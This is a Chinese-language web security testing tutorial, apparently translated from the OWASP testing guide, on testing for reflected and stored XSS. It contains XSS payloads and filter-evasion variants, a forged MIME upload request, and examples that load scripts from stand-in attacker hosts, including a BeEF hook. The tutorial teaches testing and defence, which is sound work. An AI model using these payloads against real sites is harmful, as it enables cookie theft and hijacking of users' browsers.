

# 第8讲 输入验证类测试

绝大多少Web 应用的安全缺陷在于没有正确的进行输入验证，输入不仅来自于客户端的用户，也来自于某些环境变量。这一问题导致了很多严重的web安全漏洞，例如XSS，SQLIs，解析器注入，locale/unicode攻击，文件系统攻击，缓冲区溢出攻击等等。

从客户端或外部实体输入的数据从不应该被信任，其中很可能包括攻击者篡改后的攻击载荷。“All input is Evil”，这是第一条规则。不幸的是，很多复杂应用经常有大量的入口点，使得开发人员很难遵守这一规则。本章节描述了数据验证类测试，旨在测试所有可能的输入表单，确定应用是否有足够的输入验证安全机制。

主要测试分类有：
- 反射型跨站脚本测试 Testing for Reflected Cross Site Scripting
- 存储型跨站脚本测试 Testing for Stored Cross Site Scripting
- HTTP动词伪造测试 Testing for HTTP Verb Tampering
- 	WSTG-INPVAL-004	Testing for HTTP Parameter pollution
- 	WSTG-INPVAL-005	Testing for SQL Injection
- 	WSTG-INPVAL-006	Testing for LDAP Injection
- 	WSTG-INPVAL-007	Testing for ORM Injection
- 	WSTG-INPVAL-008	Testing for XML Injection
- 	WSTG-INPVAL-009	Testing for SSI Injection
- 	WSTG-INPVAL-010	Testing for XPath Injection
- 	WSTG-INPVAL-011	IMAP/SMTP Injection
- 	WSTG-INPVAL-012	Testing for Code Injection
- 	WSTG-INPVAL-013	Testing for Command Injection
- 	WSTG-INPVAL-014	Testing for Buffer overflow
- 	WSTG-INPVAL-015	Testing for incubated vulnerabilities
- 	WSTG-INPVAL-016	Testing for HTTP Splitting/Smuggling

## 反射型跨站脚本测试 Testing for Reflected Cross Site Scripting
ID:WSTG-INPV-01

### 摘要
当攻击者在单个HTTP响应中注入浏览器可执行代码时，就会发生反射跨站点脚本（Reflected XSS）。注入的攻击未存储在应用程序本身内；它是非持久性的，仅影响打开恶意链接或第三方网页的用户。攻击字符串包含在精心设计的URI或HTTP参数中，被应用程序错误处理，并返回给受害者。

反射XSS是最常见的XSS攻击类型，也称为非持久XSS攻击，由于攻击有效载荷是通过单个请求和响应传递和执行的，因此它们也称为一阶或类型1 XSS。

当Web应用程序受到此类攻击时，它将通过请求发送的未经验证的输入传递回客户端。攻击的常见方式包括：
- 设计阶段，攻击者创建并测试有问题的URI；
- 社会工程阶段，诱骗受害者将其URI加载到他们的浏览器上；
- 最终执行阶段，在受害者的浏览器上执行有问题的代码。

通常，攻击者的代码是用JavaScript语言编写的，但是也可以使用其他脚本语言，例如ActionScript和VBScript。攻击者通常利用这些漏洞来安装按键记录器，窃取受害者的Cookie，执行剪贴板盗窃以及更改页面内容（例如下载链接）。

防止XSS漏洞的主要困难之一是正确的字符编码。在某些情况下，Web服务器或Web应用程序可能无法过滤某些字符编码，因此，例如，Web应用程序可能会过滤掉```<script>```，但可能不会过滤```%3cscript%3e```，而仅包含标签的另一种编码。

### 测试方法
#### 黑匣子测试
黑盒测试将至少包括三个阶段：

##### 找出所有输入向量
检查每个页面的输入向量。测试人员必须确定web应用程序的所有用户输入/环境输入变量，以及如何输入。这包括隐藏的、不容易看见的输入，例如：HTTP参数、POST数据、隐藏表单字段、预定义键值等。通常可以使用浏览器的开发者工具和Web代理查看所有请求输入变量。

##### 分析输入向量
分析每个输入向量，检查潜在的漏洞。为了检测XSS漏洞，测试人员可以将特定的输入数据与每个输入向量结合使用。这样的输入数据通常是无害的，但是浏览器会响应，从而表明有该漏洞。可以通过使用Web应用程序模拟器，读取攻击字符串字典或动态生成测试数据。例如：
- ```<script>alert(123)</script>```
- ```><script>alert(document.cookie)</script>```

有关潜在测试字符串的完整列表，可以参考https://owasp.org/www-community/xss-filter-evasion-cheatsheet

##### 检查影响
对于上一阶段中尝试的每个测试输入，测试人员要分析结果并确定是否有实际的安全影响。这需要检查结果网页HTML并搜索输入。一旦找到，测试人员将识别出未正确编码，替换或过滤掉的任何特殊字符。易受攻击的未经过滤的特殊字符集将取决于HTML该部分的上下文。

理想情况下，所有HTML特殊字符都将替换为HTML实体。要识别的主要HTML实体是：
- ```>``` 大于
- ```<``` 小于
- ```&``` 
- ```'```
- ```"```

HTML和XML规范定义的实体完整列表可以参考：https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references

在HTML动作或JavaScript代码的上下文中，将需要转义，编码，替换或过滤掉一组不同的特殊字符。这些字符包括：
- ```\n```
- ```\r```
- ```'```
- ```"```
- ```\```
- ```\uXXXX``` unicode码值

更多的，可以参考[Mozilla JavaScript guide](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Grammar_and_types#Using_special_characters_in_strings)

##### 例子

###### 例1
例如，考虑某个网站有个欢迎某用户的提示 “ Welcome
%username% ” 和一个下载连接```http://example.com/index.php?user=MrSmith```。

测试人员有必要怀疑每个数据注入点可能产生XSS攻击。为了进行分析，测试人员将扮演用户，尝试发现漏洞。让我们点击下列链接，看看会发生什么。```http://example.com/index.php?user=<script>alert(123)</script>```。如果没有有效的防护，就会在页面上显示一个警告框，并写着123.这说明了有反射型XSS漏洞。

###### 例2

让我们尝试另一段链接：
```http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName(“a”);AllLinks[0].href = “http://badexample.com/malicious.exe”; }</script> ```

这可能在浏览器端弹出一个链接，诱使用户点击并下载恶意的exe。

##### 绕过XSS过滤

防护反射XSS攻击常通过web应用过滤用户输入的方法实现。web应用防火墙阻止恶意输入，或采用现代web浏览器的内嵌机制。测试人员必须假定浏览器无法过滤用户输入。新的攻击形式可能会绕过已有的防护手段。

开发人员在过滤/消除用户输出时，有几种手段，例如：返回错误页、删除输入、编码、替换无效输入等。这意味着Web应用检查和纠正无效输入这一功能，可能是一个新的安全隐患。黑名单不会包含所有的攻击字符串，而白名单可能过于保守，输入数据消毒可能失效。

[XSS 过滤免杀cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)文档列出了通常的免杀测试项。

###### 例3：标签属性值

有些过滤基于黑名单，它们不能阻止所有表达式。事实上，有一些XSS渗透可以携带没有```<>```的脚本。例如某个网站使用用户输入填充一个属性：```<input type="text" name="state" value="INPUT_FROM_USER">```，而攻击者可以提交类似代码：```" onfoucus="alert(document.cookie)```。

###### 例4：不同的语法和编码

在许多例子中，可能基于签名的过滤器能简单地检测的混淆攻击。你可以尝试插入不希望有语法或编码变化。如果有代码返回，说明浏览器容忍了这些变化，而且它们可能也能够被过滤器所接受。

例如：
```"><script >alert(document.cookie)</script >```
```"><ScRiPt>alert(document.cookie)</ScRiPt>```
```"%3cscript%3ealert(document.cookie)%3c/script%3e```

###### 例5

假设开发人员使用下列代码保护输入：
```
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```
正则表达式会检查```<script [anything but the character: '>'] src```是否被插入。可以过滤如下的xss：```<script src="http://attacker/xss.js"></script>```。 但是它可能会在使用">"时被绕过，例如：```http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>```

###### 例7 HTTP 参数污染（HPP）
绕过检查的另一个方法是HTTP 参数污染。这种技术最新由Stefano di Paola和Luca Carettoni 在2009年的会议上提出。这种免杀技术由在有同样名称的多个参数间的分片攻击向量构成。操作方法依赖于浏览器如何解析这些参数。所以这类免杀不总是有效。如果测试环境将所有同名参数连接在一起，那么攻击者可能会使用此类技术绕过基于模式的安全机制。常规攻击如：```http://example/page.php?param=<script>[...]</script>```，而使用 HPP的攻击为:```http://example/page.php?param=<script&param=>[...]</&param=script>```。

#### 灰盒测试

类似于黑盒测试，但有了开发人员的帮助，可以查看源代码了解安全过滤机制。

### 工具

- PHP Charset Encoder(PCE) This tool helps you encode arbitrary texts to and from 65 kinds of charsets. Also some encoding functions featured by JavaScript are provided.
- HackVertor It provides multiple dozens of flexible encoding for advanced string manipulation attacks.
- XSS-Proxy XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- ratproxy A semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- Burp Proxy Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- OWASP Zed Attack Proxy (ZAP) ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.

## 存储型跨站脚本测试 Testing for Stored Cross Site Scripting 

ID : wstg-inpv-02

### 概述

存储型跨站点脚本（XSS）是最危险的XSS类型。允许用户存储数据的Web应用程序可能会遭受此类攻击。本节说明了存储型跨站点脚本注入和相关利用场景的示例。

当Web应用程序接收了用户输入的恶意内容，然后将该输入存储在数据存储中以备后用时，就会发生存储型XSS。恶意数据将看起来是正常网站的一部分，用户浏览时会在浏览器中运行。由于此漏洞通常涉及对应用程序的至少两个请求，因此也可以称为二阶XSS。

此漏洞可用于进行多种基于浏览器的攻击，包括：
- 劫持其他用户的浏览器
- 捕获应用程序用户查看的敏感信息
- 伪装应用程序
- 内部主机的端口扫描（相对于Web应用程序用户的“内部”）
- 定向传递基于浏览器的漏洞
- 其他恶意活动

存储的XSS不需要恶意链接即可被利用。当用户访问带有存储的XSS的页面时，将成功利用漏洞。以下阶段与典型的存储XSS攻击情形有关：
- 攻击者将恶意代码存储到易受攻击的页面中
- 用户在应用程序中进行身份验证
- 用户访问易受攻击的页面
- 用户的浏览器执行恶意代码


也可以使用浏览器渗透框架（例如BeEF和XSS Proxy）来利用这种攻击。这些框架允许进行复杂的JavaScript开发。

在较高特权用户可以访问的应用程序区域中，存储型XSS尤其危险。管理员访问这类XSS所在页面时，其浏览器会自动执行攻击。这可能会暴露敏感信息，例如会话授权令牌。

### 测试方法
#### 黑匣子测试

标识存储的XSS漏洞的过程类似于测试反射的XSS时描述的过程。

##### 输入表单
第一步是识别出所有能将用户输入存储到后端并由应用程序显示的“入口点”。可以在以下位置找到存储的用户输入的典型示例：
- 用户/个人资料页面：该应用程序允许用户编辑/更改个人资料详细信息，例如名字，姓氏，昵称，头像，图片，地址等。
- 购物车：该应用程序允许用户将商品存储到购物车中，然后可以稍后对其进行检查
- 文件管理器：允许上传文件的应用程序
- 应用程序设置/首选项：允许用户设置首选项的应用程序
- 论坛/留言板：允许用户之间交换帖子的应用程序
- 博客：博客应用程序是否允许用户提交评论
- 日志：如果应用程序将一些用户输入存储到日志中。

##### 分析HTML代码
应用程序存储的输入通常在HTML标记中使用，但也可能在 JavaScript中找到。在此阶段，最基本的是了解是否存储了输入以及如何在页面上下文中放置输入。与反射型XSS不同，渗透测试人员还要考虑通过带外渠道接收和存储的用户输入。

注意：管理员可访问的所有应用程序区域都要被测试，排除一切可能发送存储型XSS的隐患。


示例：通过电子邮件将数据存储在index2.php中.



index2.php中的代码：
```<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" />```

测试人员要尝试将代码注入<input>标签外部的方法例如：```<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- />```

##### 尝试建立存储型XSS

注入示例：
```aaa@aa.com”><script>alert(document.cookie)</script>```

```aaa@aa.com&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;```

```aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E```


上面的注入将导致一个包含cookie值的弹出窗口。要确保输入是通过应用程序提交的。如果客户端设置了安全控制，则可能会禁用JavaScript或使用Web代理修改HTTP请求。还要注意，分别使用HTTP GET和POST请求进行测试。

##### 使用BeEF进行存储XSS攻击

通过高级Javascript渗透框架BeEF和XSS代理可以进行存储型XSS攻击。

典型的BeEF渗透场景包括：
- 注入一个JavaScript钩子，该钩子与攻击者的浏览器利用框架（BeEF）通信
- 等待应用程序用户查看显示存储的输入的漏洞页面
- 通过BeEF控制台控制应用程序用户的浏览器

利用Web应用程序中的XSS 漏洞来注入Javascript钩子。

示例：在index2.php中的BeEF注入：```aaa@aa.com”><script src=http://attackersite/hook.js></script>```

当用户加载页面index2.php时，脚本hook.js由浏览器执行，然后可以访问cookie，用户屏幕截图、用户剪贴板，并发起复杂的XSS攻击。

##### 上传文件
如果Web应用程序允许文件上传，则要检查是否可以上传HTML内容。例如，如果允许HTML或TXT文件，则可以将XSS载荷注入上载的文件中。渗透测试器还应该验证文件上传是否允许设置任意MIME类型。

考虑以下用于文件上传的HTTP POST请求：
```
POST /fileupload.aspx HTTP/1.1
[…]

Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```

此设计缺陷可以在浏览器MIME错误处理攻击中加以利用。例如，看起来无害的文件（例如JPG和GIF）可以包含XSS有效负载，该有效负载在由浏览器加载时执行。当可以将图像的MIME类型（例如image / gif）设置为text / html时，这是可能的。在这种情况下，客户端浏览器会将文件视为HTML。

考虑如下的伪造的HTTP POST请求：
```
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html

<script>alert(document.cookie)</script>
```

注意，Internet Explorer不能以与Mozilla Firefox或其他浏览器相同的方式处理MIME类型。例如，Internet Explorer将含有HTML的TXT处理为HTML。有关MIME处理的更多信息，请参阅本章底部的白皮书部分。

#### 灰盒测试

灰盒测试与黑盒测试类似。渗透测试人员可以通过与开发人员沟通了解用户输入、输入验证控制、数据存储等更多信息。

推荐测试人员检查用户输入如何被web应用所处理，以及它们被如何存储。推荐下列步骤：
- 使用前端应用，使用特殊字符或无效字符进行输入；
- 分析应用响应
- 识别输入验证控制以及效果
- 访问后端系统并检查输入是否被存储，以及如何存储
- 分析源代码，理解如何处理要存储的输入

如果源代码可以查看，所有在输入表单中使用的变量都需要被分析。特别是，诸如PHP，ASP和JSP之类的编程语言会使用预定义的变量/函数来存储来自HTTP GET和POST请求的输入。

下表总结了分析源代码时要查看的一些特殊变量和函数：

|PHP|	ASP	|JSP|
|-|-|-|
|$_GET - HTTP GET variables|	Request.QueryString - HTTP GET|	doGet, doPost servlets - HTTP GET and POST|
|$_POST - HTTP POST variables	Request.Form - HTTP POST	request.getParameter - HTTP GET/POST variables
$_REQUEST – HTTP POST, GET and COOKIE variables	Server.CreateObject - used to upload files	
$_FILES - HTTP File Upload variables		
